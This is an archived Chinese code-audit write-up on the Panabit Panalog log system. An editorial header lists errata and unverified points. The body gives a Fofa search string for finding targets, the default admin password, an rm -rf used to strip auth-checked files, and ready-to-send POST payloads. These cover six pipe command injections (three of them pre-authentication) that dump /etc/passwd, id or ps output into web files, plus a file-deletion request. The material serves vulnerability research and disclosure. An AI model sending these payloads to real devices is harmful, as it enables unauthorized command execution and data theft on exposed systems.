# Panalog 日志系统设备审计

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Panabit Panalog
- 文献类型：多漏洞代码审计
- 版本、权限及部署边界：文称<=MARS r10p1Free；3前台RCE、3后台RCE、1后台删除；默认凭据另项
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 七个入口和鉴权条件不同应拆实体关联，不强合并同产品RCE；源码/固件版本hash和补丁缺
2. 删除包含chksession()所有文件会破坏审计语境，且无该字符串不证明无上层/include鉴权，应静态追调用而非此筛选推出匿名
3. 前台第二项判断条件代码是触发拒绝条件，文称符合即可执行容易倒置；fetchfile示例缺nodeip，accountlist描述参数与实际errname不一致
4. PoC多为只有路径+body非完整HTTP、后台Cookie没展示；创建多个输出文件及deletefile为状态改变
5. 后台删除仅5.txt未证实任意路径；所有关键源代码与成功截图未视检；官方源码下载链接和原文可保留

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/8FVXJGOMUSemP7al3UrceQ>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://www.panabit.com/cn/product/2021/0107/379.html****>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/8FVXJGOMUSemP7al3UrceQ)

0x00 前言

**Fofa:app="Panabit-Panalog"   **影响版本: <=** **MARS r10p1Free****



**访问** **/cretime.txt 文件可查看版本.**

**开局首先找找有无官方文档, 默认账密等** **默认账密: admin|panabit**

**并且这里能下载源码:** 

****https://www.panabit.com/cn/product/2021/0107/379.html****



**下载下来 发现 web 目录在 \usr\logd\www**



**直接开始审计 我这里用 Seay 源代码审计系统.**

**这里有很多思路 可以从****黑盒到白盒** **(即先通过现有漏洞获取源码 然后进行白盒审计.)**

**首先要挖前台的漏洞 那么需要鉴权的文件是必不可有的.** **这里使用命令删除所有包含鉴权代码的文件.**

```
rm -rf $(grep -ril 'chksession()' ./)

```

0x01 前台任意命令执行

命令执行点 1
-------

**这里定位到一处命令执行.**

  



**发现其通过** **Username** **参数传递进去 利用 Exec 执行命令 未做过滤 但是命令没有回显.**

****

**Payload:  
**

```
POST /account/sy_query.php
username=|cat /etc/passwd >1.txt

```

命令执行点 2  

**定位到第二处前台命令执行.**

****

  

**这里传递了三个参数（Get 传入或 Post 传入都是可以的）：Token id host**

**只需要符合下列条件即可触发命令执行.**

```
if (empty($token) || $id < 0 || $id == "") {
  outputres("no", "ERROR: INVALID_PARAM");
  exit;
}

```

**Payload:**

```
POST /content-apply/libres_syn_delete.php
token=1&id=2&host=|cat /etc/passwd >222.txt

```



命令执行点 3

**又定位到一处命令执行.**





**这里 grpid 参数通过 postval 函数 (上边 Include 包含了 / common.php 文件 中有定义) 传入 然后带入命令执行.**

****

**直接构造请求：**  

```
POST /sessiptbl.php
action=serverdelay&grpid=|id >333.txt

```



0x02 后台任意命令执行

执行点 1
-----

**/ajax_ping.php** **这里 post 传递了 ipaddr 函数 带入 exec 命令执行.**
----------------------------------------------------------

****

**Payload:  
**

```
POST /ajax_ping.php HTTP/1.1
ipaddr=|id >2.txt

```

****

执行点 2

**/fetchfile.php** **post 传递了 filename,nodeip,type 参数可控，带入 exec 造成命令执行**

****

**Payload:**  

```
POST /fetchfile.php HTTP/1.1
type=downloadfile&filename=|id >5.txt

```

****

执行点 3  

**/account/accountlist.php** **可以传递 account,startdt,enddt.**

****

**Payload:  
**

```
POST /account/accountlist.php HTTP/1.1
type=acctoapp&account=123&errname=|ps >9.txt

```

****

0x03 后台任意文件删除  

**定位到一处删除文件操作. /deletefile.php**

****

**Payload:  
**

```
POST /deletefile.php HTTP/1.1
filename=5.txt

```

****

